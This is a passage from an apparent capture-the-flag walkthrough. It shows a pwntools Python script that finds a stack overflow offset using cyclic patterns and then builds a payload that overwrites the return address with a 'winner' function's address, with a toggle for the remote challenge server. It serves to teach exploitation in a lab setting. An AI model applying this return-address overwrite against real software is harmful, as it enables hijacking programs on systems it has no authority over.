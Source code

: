 # Nip and tuck

Now we can use some python-fu (and this is totally personal preference) to add 
a REMOTE and DEBUG variable, so we can toggle our final solution to remote/local 
and detailed logging with a couple of settings. I've also re-introduced the 
offset hunter code as a function we can add/remove into future scripts:

```python
#!/usr/bin/env python3

from pwn import *
from time import sleep

REMOTE = True
DEBUG = False

context.log_level = "DEBUG" if DEBUG else "INFO" #Variable log levels
context.binary = ELF("./reg")   # Set the context binary to our target
context.update(arch="amd64", os="linux")    # More context

# Method to find crash offsets:
def find_offset(p, buf_size=200):
    # Build our previous buffer, using bytes objects because python3
    test_buf = cyclic(buf_size)  # Send a pattern to the process
    # Send this directly to the process
    p.recvuntil(b":")       # We need to receive 'Enter your name:' before we send
    p.sendline(test_buf)    # Send our buffer overa
    p.recvline()            # Receive our 'Registered' message
    # Now read from the process corefile where rip is
    p.wait()                # Wait for the crash
    core = p.corefile       # set up the corefile
    pattern = core.read(core.rsp, 4)    # Read 4 bytes from rsp (where RP is at the ret instruction)
    rip_offset = cyclic_find(pattern)   # Check the data here against our cyclic pattern
    log.info(f"Found offset to operwrite RP : {hex(rip_offset)}")    # Tell us what we found
    return rip_offset

# Now spawn an instance of our process and interact with it
if not REMOTE:
    p = process("./reg")
else:
    host_string = "188.166.173.208:32362"   # Copy pasta from HTB
    host, port = host_string.split(":")     # Break the string in two
    port = int(port)                        # Pwntools expects an integer
    p = remote(host, port)                  # Replace our process object with a remote object    

# Configure GDB - start with a GDB script - breakpoint and start GEF
gdb_script = '''
    init-gef
    b *(run + 52)
    c
    '''
if DEBUG and not REMOTE:
    gdb.attach(p, gdb_script)       # Now attach to the reg process in gdb

# Build our previous buffer, using bytes objects because python3
winner = context.binary.symbols['winner']   # Find winner
log.info(f"Found winner : {hex(winner)}")   # Tell user where it is
attack_buf = b"A" * 0x30 + b"S" * 0x8       # Start of our attack buffer (up to RP)
attack_buf += p64(winner)                   # This autmoates our little-endian conversion

# Send this directly to the process
p.recvuntil(b":")       # We need to receive 'Enter your name:' before we send
```